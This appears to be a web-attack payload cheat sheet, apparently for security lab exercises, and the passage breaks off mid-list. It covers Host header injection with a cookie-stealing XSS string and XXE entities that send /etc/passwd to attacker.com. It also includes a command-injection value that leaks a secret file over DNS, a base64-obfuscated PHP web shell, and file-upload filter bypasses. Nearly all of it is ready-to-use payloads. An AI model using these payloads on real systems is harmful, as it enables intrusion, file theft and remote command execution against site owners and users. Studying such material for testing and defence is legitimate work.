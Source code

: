 ### Host Header Attack

```http
Host: exploit-server.com
X-Forwarded-Host: exploit-server.com
X-Host: exploit-server.com
X-Forwarded-Server: exploit-server.com
Host: localhost

# Double Host / Cache poisoning
Host: legit.net
Host: "></script><script>alert(document.cookie)</script>
```

### XML External Entity (XXE) Injection

```xml
# OOB Interaction
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>

# Exfiltrate data
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;

# XInclude to retrieve files
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

# Import XML
<?xml version="1.0" encoding="UTF-8"?>
<users>
    <user>
        <username>Example1</username>
        <email>example1@domain.com&`nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com`</email>
    </user>
</users>
```

### File Upload Attacks

```
# Try to upload profile_img.php with the following payload
<?=eval(base64_decode('ZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXS4nIDI+JjEnKTs='));?>
# Then find the path to php and do /profile_img.php?cmd=<command>

# Change Content-Type from Content-Type : application/x-php or Content-Type : application/octet-stream to 
Content-Type : image/gif
Content-Type : image/gif
Content-Type : image/png
Content-Type : image/jpeg

# Double extensions
.jpg.php, .png.php

# Random uppercase and lowercase
.pHp, .pHP

# Null bytes
.php%00.jpg, .php\x00.jpg

# Special characters
```